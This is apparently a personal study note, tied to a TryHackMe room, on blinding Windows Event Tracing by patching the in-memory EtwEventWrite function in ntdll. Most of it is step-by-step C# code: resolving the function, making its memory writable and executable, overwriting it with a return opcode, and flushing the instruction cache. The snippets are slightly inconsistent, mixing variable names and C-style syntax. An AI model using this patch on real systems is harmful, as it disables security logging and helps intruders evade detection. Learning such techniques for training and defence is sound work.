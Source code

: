 # ETW-Evasion Patching Tracing Functions

Patching Tracing Functions is a [[Logging-And-Monitoring-Evasion]] technique. The [[Event-Tracing-for-Windows]] (ETW) is loaded from the runtime of every new process, commonly originating from the **CLR** (**C**ommon **L**anguage **R**untime). Within a new process, ETW events are sent from the userland and issued directly from the current process. 

The techniques involve [[Binary-Patching]] (writing pre-defined opcodes to an) in-memory function of ETW to patch and disable functionality
1. Obtain a handle for `EtwEventWrite` by loading the library using `LoadLibrary` then obtain the handle using `GetProcAddress`
```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```
2. Modify memory permissions of the function - the permissions are defined by the `flNewProtect` parameter; `0x40` enables X, R, or RW access ([memory protection constraints](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)).
```csharp
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```
3. Write opcode bytes to memory (writing to the function not a process with `Marshal.Copy`!)
```csharp
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);
```
4. Restore memory permissions of the function (optional, but probably a good idea) 
```csharp
VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
```
5. Flush (the patched function will be executed from the instruction cache) the instruction cache
```csharp
Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```

## References

[Microsoft Documentation - Memory Protection Constraints](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)
[THM Evading Logging and Monitoring Room](https://tryhackme.com/room/monitoringevasion)

